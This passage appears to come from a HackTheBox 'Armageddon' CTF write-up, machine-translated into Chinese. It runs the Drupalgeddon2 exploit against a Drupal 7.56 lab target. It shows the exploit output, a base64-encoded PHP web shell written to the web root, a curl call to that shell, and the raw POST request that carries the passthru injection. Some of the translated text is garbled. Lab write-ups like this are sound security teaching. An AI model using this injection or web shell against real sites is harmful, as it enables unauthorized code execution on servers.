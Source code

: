 然后我运行了漏洞利用定位：`http://127.0.0.1:8888`

    oxdf@parrot$ /opt/Drupalgeddon2/drupalgeddon2.rb http://127.0.0.1:8888
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://127.0.0.1:8888/
    --------------------------------------------------------------------------------
    [+] Found  : http://127.0.0.1:8888/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.56
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Clean URLs
    [!] Result : Clean URLs disabled (HTTP Response: 404)
    [i] Isn't an issue for Drupal v7.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo TRZZJAMZ
    [+] Result : TRZZJAMZ
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://127.0.0.1:8888/shell.php)
    [i] Response: HTTP 404 // Size: 5
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
    --------------------------------------------------------------------------------
    [i] Fake PHP shell:   curl 'http://127.0.0.1:8888/shell.php' -d 'c=hostname'
    armageddon.htb>>
    

打嗝中有八个新请求：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210326163257806.png) 

它做的第一件事是拉动 ，就像我上面所做的那样。然后它尝试几个路径到这个形式，得到500和404。它回到给出500的那个，并添加了额外的参数：`CHANGELOG.txt``/user/password`

    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20VQMJGJAU HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded
    
    form_id=user_pass&_triggering_element_name=name
    
